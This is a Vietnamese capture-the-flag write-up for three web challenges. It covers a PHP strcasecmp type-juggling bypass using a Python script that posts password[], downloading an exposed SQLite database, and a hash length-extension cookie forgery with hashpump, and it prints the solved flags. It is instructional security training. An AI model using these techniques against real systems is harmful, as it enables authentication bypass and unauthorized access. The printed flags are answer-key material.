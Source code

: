 ## Bài 2:
* Đọc mã nguồn của trang 
``` html
<!DOCTYPE html>
<html>
  <head>
    <title>Simple Auth</title>
  </head>
  <body>
    <div>
<?php
$password = 'FLAG_????????????????';
if (isset($_POST['password']))
    if (strcasecmp($_POST['password'], $password) == 0)
        echo "Congratulations! The flag is $password";
    else
        echo "incorrect...";
?>
    </div>
    <form method="POST">
      <input type="password" name="password">
      <input type="submit">
    </form>
  </body>
</html>
```
* Ta thấy 
```php
if (strcasecmp($_POST['password'], $password) == 0)
        echo "Congratulations! The flag is $password";
    else
        echo "incorrect...";
```

* Với hàm `strcasecmp` ta chỉ cần truyền vào 1 mảng password là có thể vượt qua được.
* Viết 1 chương trình sử dụng `Python` để gửi 1 mảng password vào form
```python
import urllib
import urllib2

url = 'http://ctfq.sweetduet.info:10080/~q32/auth.php'
data = {"password[]": "pass ne",}
a = urllib.urlencode(data).encode("utf-8")
print a 
req = urllib2.Request(url, a)
res = urllib2.urlopen(req)
html = res.read()
print html
```
* Ta thu được flag: `FLAG_VQcTWEK7zZYzvLhX`

## Bài 4:
* Xem mã nguồn ta thấy trang web sử dụng database của SQLite
* Đối với SQLite, DBMS này không có cơ chế xác thực bằng Username và Password mà chỉ đơn giản là đường dẫn tới file dữ liệu
* Đọc trong mã nguồn ta thấy 
`$db = new PDO('sqlite:database.db');`
Vậy đường dẫn đến file database sẽ là 
`http://ctfq.sweetduet.info:10080/~q35/database.db`
* Tải file database rồi Select đến bảng user ta sẽ được

| id        | Password              |
| ----------|:---------------------:|
| root      | FLAG_iySDmApNegJvwmxN |

*Vậy cờ thu được là `FLAG_iySDmApNegJvwmxN`

## Bài 3:
* Đọc mã nguồn ta thấy 
```
$shipname = array(
    'Nagato',
    'Mutsu',
    'Kongo',
    'Hiei',
    'Haruna',
    'Kirishima',
    'Fuso',
    'Yamashiro',
    'Ise',
    'Hyuga',
    "Yamato [Congratulations! The flag is $salt. ??????????????????????????????????????.]"
);
```
* Mảng shipname có 11 phần tử, nhưng ta đọc tiếp đoạn code bên dưới thấy 
`        $ship[] = mt_rand(0, count($shipname)-2);` 
`    echo "<li>{$shipname[$ship[$i]]}</li>\n";`
* Khi ta bấm nút Gacha thì xuất hiện ngẫu nhiên các phần tử trong mảng `shipname`, nhưng hàm `mt_rand` chỉ cho phép xuất hiện đến phần tử thứ 10, phần tử thứ 11 là flag
* Thử kiểm tra cookie với 2 trọng số chính là `ship` và `signature` thấy cặp `{ship:signature}` không đổi.
* Nghĩ cách set cookie với giá trị `ship` chứa số 10 và `signature` đúng thì sẽ hiển thị được flag
* Sử dụng hàm `hashpump` với các giá trị sau
- `Input Signature: 489009674f199404993dffeba9dfb5d138414173104d9c1f0d69ab147211f513d07a7020d1c1eda22808efe5a6dc3c7c26bab25ea6813021ddffe8c7d636944d
` (Lấy trên cookie trình duyệt)
- `Input Data: 9`
- `Input Key Length: 21` (Mã nguồn `$salt = 'FLAG_????????????????';` thấy có 21 kí tự =)))
- `Input Data to Add: ,10`
* Nhận được `930472e5483c2f10a18f8a2873d50850809f6f90a88b98f453a67ee896a69c86d4bfac8877f8ae63d48ab5acb7079d389588f6675495ae83c956a95788ab0d9c` là `signature` mới 
`9\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb0,10` là `ship` mới
* Sửa giá trị `ship` mới bằng cách bỏ `\x` và thay bằng `%` ta được chuỗi mới `# 9%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%b0,10`
* Set lại cookie bằng 2 giá trị mới ta sẽ thu được cờ
`FLAG_uc8qVFa8Sr6DwYVP`